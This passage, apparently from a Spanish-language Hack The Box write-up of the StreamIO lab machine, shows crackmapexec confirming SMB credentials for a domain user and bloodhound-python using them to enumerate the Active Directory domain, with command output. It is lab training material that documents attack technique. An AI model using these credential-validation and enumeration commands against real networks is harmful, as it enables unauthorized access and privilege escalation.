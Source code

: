 Comprobamos con crackmapexec si las credenciales son validas
```ruby
❯ crackmapexec smb 10.10.11.158 -u user2 -p pass2
SMB         10.10.11.158    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
...[snip]...
SMB         10.10.11.158    445    DC               [+] streamIO.htb\JDgodd:JDg0dd1s@d0p3cr3@t0r 
```
.
### El confiable BloodHound [+](#bloodhound) {#bloodhound}

En este momento es buena idea usar <a href="https://bloodhound.readthedocs.io/en/latest/index.html" target="_blank">BloodHound</a>, para ver posibles metodos de escalar privilegios
```ruby
❯ bloodhound-python -c All -u 'JDgodd' -p 'JDg0dd1s@d0p3cr3@t0r' -ns 10.10.11.158 -d streamio.htb
INFO: Found AD domain: streamio.htb
INFO: Connecting to LDAP server: dc.streamio.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.streamio.htb
INFO: Found 8 users
INFO: Connecting to GC LDAP server: dc.streamio.htb
INFO: Found 54 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.streamIO.htb
INFO: Done in 01M 08S
```

Una vez en BloodHound cargamos los datos.json, y marcamos a NIKK37 y JDgodd como propios

<img src="/assets/images/htb/streamio/streamio9.png" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>
